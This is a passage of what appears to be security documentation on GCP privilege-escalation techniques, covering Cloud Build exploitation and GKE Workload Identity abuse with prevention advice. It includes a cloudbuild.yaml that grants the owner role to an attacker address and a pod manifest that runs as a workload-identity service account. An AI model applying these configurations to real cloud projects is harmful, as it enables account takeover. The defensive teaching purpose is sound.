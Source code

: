 **Prevention**:
- Restrict Cloud Run admin permissions
- Use Binary Authorization
- Implement least-privilege service accounts
- Monitor container deployments

### 🟡 Medium Risk Techniques

#### 6. Cloud Build Exploitation (`CAN_TRIGGER_BUILD_AS`)
**Risk Score**: medium/high (see risk thresholds in config)

**Description**: Trigger builds that run with Cloud Build's default service account (often has Editor role).

**Required Permission**: `cloudbuild.builds.create`

**Common Roles**:
- `roles/cloudbuild.builds.editor`
- `roles/cloudbuild.builds.builder`

**Exploitation**:
```yaml
# cloudbuild.yaml
steps:
- name: 'gcr.io/cloud-builders/gcloud'
  entrypoint: 'bash'
  args:
  - '-c'
  - |
    # Extract SA token
    gcloud auth list
    gcloud projects add-iam-policy-binding $PROJECT_ID \
      --member=user:attacker@example.com \
      --role=roles/owner
```

**Prevention**:
- Use custom service accounts for builds
- Restrict source repository access
- Enable Binary Authorization
- Monitor build logs

#### 7. GKE Workload Identity Abuse (`CAN_DEPLOY_GKE_POD_AS`)
**Risk Score**: high (see risk thresholds in config)

**Description**: Deploy pods that can impersonate GKE workload identity service accounts.

**Required Permissions**:
- `container.pods.create`
- Namespace access with WI binding

**Exploitation**:
```yaml
# malicious-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
  namespace: production
spec:
  serviceAccountName: workload-identity-sa
  containers:
  - name: attacker
    image: google/cloud-sdk
    command: ["/bin/sh"]
    args: ["-c", "while true; do gcloud auth list; sleep 30; done"]
```